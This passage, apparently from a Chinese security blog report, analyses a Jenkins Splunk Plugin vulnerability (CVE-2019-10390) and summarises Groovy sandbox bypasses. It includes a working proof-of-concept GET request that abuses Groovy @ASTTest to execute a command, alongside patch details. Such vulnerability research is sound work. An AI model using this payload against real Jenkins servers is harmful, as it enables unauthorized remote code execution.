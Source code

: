 ![1568863989383](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568863989383.png)

![1568864020702](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568864020702.png)



### SECURITY-1294

- 公告：https://jenkins.io/security/advisory/2019-08-28/#SECURITY-1294
- CVE-2019-10390
- 插件：Splunk Plugin
- 影响版本：<=1.7.4
- 利用点
    - `com.splunk.splunkjenkins.SplunkJenkinsInstallation#doCheckScriptContent`

#### 分析

通过上面分析的descriptorByName可以直接调用到指定的类，注意到SplunkJenkinsInstallation类的`doCheckScriptContent`方法，该方法调用了

`LogEventHelper.validateGroovyScript(value)`

该方法对script进行了解析，而参数value的值直接从request获取，因此传入精心构造的脚本可导致任意代码执行

![1567144975420](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1567144975420.png)

#### PoC

```
GET /descriptorByName/com.splunk.splunkjenkins.SplunkJenkinsInstallation/checkScriptContent?value=import%20groovy.transform.*%0a@ASTTest(value={assert%20java.lang.Runtime.getRuntime().exec(%22calc%22)})%0aclass%20ASTTestPoc{}
```

![1567144024727](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1567144024727.png)

#### 补丁

- jenkinsci/splunk-devops-plugin [commit](https://github.com/jenkinsci/splunk-devops-plugin/commit/58db2878a7faa4c34f73774f28740e5ac8041928)
- 版本：1.8.0
- 概述：引入GroovySandbox在解析前对Groovy脚本进行校验

![1567144462308](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1567144462308.png)



## 总结

本报告分析了Jenkins动态路由机制和路由绕过的问题，并讨论了在主流插件Script Security中针对Groovy沙箱的绕过方法，其中最巧妙的是利用自身路由白名单绕过登录检查并结合Groovy语法达到远程代码执行，是一条非常精彩的利用链。

在修复方式上，可以看出Jenkins对于沙箱问题采取的防护方法是黑名单+白名单的方式，对安全的控制还是比较好的，不少问题都出在Groovy的语法特性上，使得较小权限的用户可以突破沙箱执行任意代码，相信以后也会有更巧妙的方式来绕过沙箱，欢迎大家探讨。


